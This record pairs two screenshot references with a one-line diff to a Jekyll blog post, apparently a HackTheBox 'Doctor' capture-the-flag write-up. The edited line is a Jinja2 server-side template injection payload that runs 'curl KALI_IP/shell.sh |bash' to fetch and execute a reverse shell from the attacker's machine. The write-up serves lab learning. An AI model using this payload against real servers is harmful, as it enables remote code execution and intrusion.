

Before and after one commit to 0xZon/0xZon.github.io, a Jekyll site: the page built from _posts/2022-03-22-HTB-Doctor.md, in a window 1280 px wide and 900 px high, scrolled down 6027 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2022-03-22-HTB-Doctor.md

````diff
--- a/_posts/2022-03-22-HTB-Doctor.md
+++ b/_posts/2022-03-22-HTB-Doctor.md
@@ -128,7 +128,7 @@ python3 -m http.server 80
 Then I will edit the payload to curl bash our reverse shell
 
 ```
-{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl KALI_IP/shell.sh |bash').read() }}
+{.\{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl KALI_IP/shell.sh |bash').read() }}
 ```
 
 Then once we go to `/archive` we will get our shell!
````
